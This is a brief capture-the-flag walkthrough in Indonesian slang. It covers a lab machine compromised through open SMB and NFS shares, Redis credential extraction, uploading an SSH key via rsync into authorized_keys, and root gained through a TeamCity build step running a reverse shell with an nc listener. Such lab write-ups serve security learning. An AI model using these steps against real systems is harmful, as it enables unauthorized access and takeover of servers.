 # boot:
1. scan nmap ada ssh smb nfs -> cek client2 smb -> smbclient -L //ip -> ada masuk aja -> smbclient //ip/nama_yg_ga$
2. get semua file ada flag -> get file
3. cek nfs -> showmount -e ip -> sudo mount -t nfs 'ip:pathnya' namadir_temp_mu -o nolock
4. cek cek cek redis dia kan db -> search aja di vim /requirepass
5. dah login aja disitu -> redis-cli -h ip -> AUTH passwdtadi -> info keys -> keys * -> get "key_mu"
6. dapet flag di internal
7. cek juga di keys authlist -> get "keynya" -> type "keynya" -> lrange "keynya" 0 10 -> decode aja base64
8. ada tuh tinggal pake aja -> rsync -av -P --list-only rsync://rsync-connect@10.10.55.82/files
9. itu buat liat doang pake ini sekarang 
10. rsync -av rsync://rsync-connect@10.10.55.82/files output_rsync  -> cd kesana klaim user flag
11. ssh-keygen -t rsa -> nanti catet tuh path pub sama rsa nya 
12. upload rsa pub ke authorized_keys target 
13. rsync -av /home/tomba/.ssh/id_rsa.pub  rsync://rsync-connect@10.10.55.82/files/sys-internal/.ssh/authorized_keys
14. dah tinggal ssh aja ssh -i letak_rsa sys-internal@ip 


# PE :
1. baca wu ->  ss -tulnp | grep 127.0.0.1 -> ada port kebuka disini
2. ssh -L 8111:127.0.0.1:8111 sys-internal@ip -i rsa_mu
3. buka 8111 di browser -> salahin aja -> dia kasih tau manual di login.html masuk aja
4. pilih yang login as super user -> nanti ke / ada Teamcity -> cat * | grep authentication
5. coba masuk pake itu -> dah masuk create project baru -> next buat buat buat aja
6. sampe ada build config keknya -> build steps -> masukin command line -> isi revshell
7. simpen dulu klik lagi terus run nyalain nc -> dah klaim root
